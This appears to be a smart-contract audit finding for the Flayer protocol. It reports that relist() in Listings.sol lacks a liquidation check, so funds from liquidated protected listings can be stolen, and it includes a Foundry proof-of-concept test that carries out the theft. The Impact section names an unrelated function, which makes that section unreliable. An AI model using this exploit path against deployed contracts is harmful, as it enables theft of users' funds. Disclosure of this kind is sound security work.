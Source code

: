 Mythical Gauze Lizard

High

# Users who create listings in `Listings.sol` using `liquidateProtectedListing` in `ProtectedListings.sol` can steal other users' funds.

### Summary

The user calls [`liquidateProtectedListing()`](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L429) of `ProtectedListings.sol` to create listing of `Listings.sol`. Then user call `relist()` of `Listings.sol` to steal other users' funds.

### Root Cause

incorrect logic in `relist()` of `Listings.sol`

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

The user calls [`liquidateProtectedListing()`](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L429) of `ProtectedListings.sol` to create listing of `Listings.sol`. Then user call `relist()` of `Listings.sol` to steal other users' funds.

### Impact

The user does not get the remaining funds back when executing `initializeCollection()` in `Locker.sol` due to incorrect implementation.

### PoC

```solidity
    function test_NotCheckLiquidationableRelist(address payable _owner, address payable _relister, uint _tokenId, uint16 _floorMultiple) public {
        _assumeValidTokenId(_tokenId);

        // Ensure that we don't set a zero address _owner
        _assumeValidAddress(_owner);
        _assumeValidAddress(_relister);
        vm.assume(_owner != _relister);

        // Ensure that our multiplier is above 1.00
        _assumeRealisticFloorMultiple(_floorMultiple);

        // Mint our token to the _owner and approve the {Listings} contract to use it
        erc721a.mint(_owner, _tokenId);
        ICollectionToken token = locker.collectionToken(address(erc721a));
        deal(address(token), address(listings), 100 ether);
        assertEq(token.balanceOf(address(listings)), 100 ether);

        vm.startPrank(_owner);
        erc721a.approve(address(protectedListings), _tokenId);

        IProtectedListings.ProtectedListing memory listing = IProtectedListings.ProtectedListing({
            owner: _owner,
            tokenTaken: 0.4 ether,
            checkpoint: 0
        });

        // Create our listing
        vm.startPrank(_owner);
        _createProtectedListing({
            _listing: IProtectedListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(_tokenId),
                listing: listing
            })
        });
        vm.stopPrank();

        vm.warp(block.timestamp + LIQUIDATION_TIME);

        address keeper = address(1);
        vm.prank(keeper);
        protectedListings.liquidateProtectedListing(address(erc721a), _tokenId);

        // Confirm that the keeper receives their token at the point of liquidation
        assertEq(token.balanceOf(keeper), protectedListings.KEEPER_REWARD() * 10 ** token.denomination());

        deal(address(token), _relister, 100 ether);
        vm.startPrank(_relister);
        token.approve(address(listings), type(uint).max);
        listings.relist({
            _listing: IListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(_tokenId),
                listing: IListings.Listing({
                    owner: _relister,
                    created: uint40(block.timestamp),
                    duration: listings.MIN_LIQUID_DURATION(),
                    floorMultiple: _floorMultiple
                })
            }),
            _payTaxWithEscrow: false
        });

        vm.stopPrank();

        vm.startPrank(_owner);
        listings.withdraw(address(token), listings.balances(_owner, address(token)));
        uint remaining = token.balanceOf(address(listings)) - listings.getListingTaxRequired(listings.listings(address(erc721a), _tokenId), address(erc721a));
        assertEq(remaining, 0);
    }
```


### Mitigation

Pls add check of _isLiquidation to `relist()` as `_fillListing()`.